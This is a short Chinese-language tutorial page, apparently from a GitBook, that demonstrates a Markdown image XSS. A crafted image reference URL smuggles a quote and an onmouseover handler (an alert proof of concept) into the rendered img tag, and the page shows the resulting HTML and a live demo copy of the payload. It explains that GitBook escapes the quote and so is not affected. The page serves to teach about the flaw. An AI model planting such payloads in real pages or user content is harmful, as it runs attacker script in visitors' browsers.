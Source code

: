 # Markdown XSS 圖片攻擊

## 滑鼠滑過事件

***程式碼***

```markdown
![滑鼠滑過事件][1]
[1]: http://www.googl.com.tw/img.jpg#"onmouseover='alert(123)'
```

***產生 Markdown HTML***

```html
<img src="http://www.googl.com.tw/img.jpg#" onmouseover='alert(123)' alt="滑鼠滑過事件">
```

***Demo***

![滑鼠滑過事件][1]

> 在 gitbook 有將特殊字元 " 字串轉換成無法執行的 ```&quot;```，所以 gitbook 沒有這方面的漏洞


## 參考資料
* [XSS等web安全漏洞的防范](http://deadhorse.me/nodejs/2012/09/20/xss_in_cnode.html)


[1]: http://www.googl.com.tw/img.jpg#"onmouseover='alert(123)'
